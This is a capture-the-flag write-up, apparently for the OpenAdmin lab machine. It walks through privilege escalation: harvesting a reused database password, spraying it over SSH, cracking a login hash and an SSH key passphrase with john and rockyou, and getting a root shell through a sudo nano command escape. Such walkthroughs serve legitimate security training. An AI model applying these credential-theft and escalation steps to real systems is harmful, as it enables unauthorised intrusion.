



# 15 - PrivEsc


```bash
www-data@openadmin:/opt/ona$ grep -ri passwd
www/local/config/database_settings.inc.php:        'db_passwd' => 'n1nj4W4rri0R!',

```

Found a password


```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/openadmin]
└──╼ $ cme ssh 10.10.10.171 -u {jimmy,joanna}  -p 'n1nj4W4rri0R!'
SSH         10.10.10.171    22     10.10.10.171     [*] SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
SSH         10.10.10.171    22     10.10.10.171     [+] jimmy:n1nj4W4rri0R! 
```

Credentials:

* jimmy:n1nj4W4rri0R!


# internal group
```bash
jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```

The user jimmy is a member of internal group.

# internal directory
```bash
jimmy@openadmin:/var/www$ ls -la
total 16
drwxr-xr-x  4 root     root     4096 Nov 22  2019 .
drwxr-xr-x 14 root     root     4096 Nov 21  2019 ..
drwxr-xr-x  6 www-data www-data 4096 Nov 22  2019 html
drwxrwx---  2 jimmy    internal 4096 Nov 23  2019 internal
```

Internal group has read write access to files in *internal*. We can potentially write to these files and execute arbitrary code as the other user but I think this is not the intended way.


```bash
jimmy@openadmin:/var/www/internal$ cat main.php 
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
We could move shell_exec up to the top as we have write access but we are not going that path. Hopefully, the intended way is more fun.


# Local port forwarding

```bash
jimmy@openadmin:/var/www/internal$ 
jimmy@openadmin:/var/www/internal$ 
ssh> -L 52846:127.0.0.1:52846
Forwarding port.
```

`Enter` twice and `~C` to get the ssh prompt. -L specifies the local port with respect to the ssh client and the address after that refers to the remote host with respect to the ssh server. 

Any request that goes to my box on port 52846 will be forwarded to the target box on the same port.



As seen from the screenshot above, localhost:54628 is successfully forwarded through ssh. A login prompt appears, luckily we have the source code.

```bash
jimmy@openadmin:/var/www/internal$ grep password index.php 
         .form-signin input[type="password"] {
            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $msg = 'Wrong username or password.';
            <input type = "password" class = "form-control"
               name = "password" required>
```

Password is a sha512 hash. Let's look up the hash against the crackstation's database.

# CrackStation



We got a match!


* jimmy:Revealed

# main.php


This private key is protected by a passphrase.


# Passphrase cracked
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/openadmin]
└──╼ $ ./ssh2john.py openadmin.key  > hash
┌─[user@parrot]─[10.10.14.14]─[~/htb/openadmin]
└──╼ $ john hash  -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (openadmin.key)
1g 0:00:01:14 DONE (2021-08-24 18:17) 0.01347g/s 193258p/s 193258c/s 193258C/sa6_123..*7¡Vamos!
Session completed
```

# Shell
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/openadmin]
└──╼ $ ssh -l joanna -i openadmin.key 10.10.10.171
Enter passphrase for key 'openadmin.key': bloodninjas
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)                                                                                                                            
                                                                                                                                                                                              
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com      
 * Support:        https://ubuntu.com/advantage 
                                               
  System information as of Tue Aug 24 15:18:30 UTC 2021

  System load:  0.0               Processes:             182
  Usage of /:   32.5% of 7.81GB   Users logged in:       1
  Memory usage: 19%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
```


# Sudo

```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
Nano is on the list of gtfobins.

https://gtfobins.github.io/gtfobins/nano/


# Nano exploit
```
joanna@openadmin:~$  /bin/nano /opt/priv
^R^X
Command to execute: reset; sh 1>&0 2>&0#   
# id                                                                                    
uid=0(root) gid=0(root) groups=0(root)                                                       
#        
```    
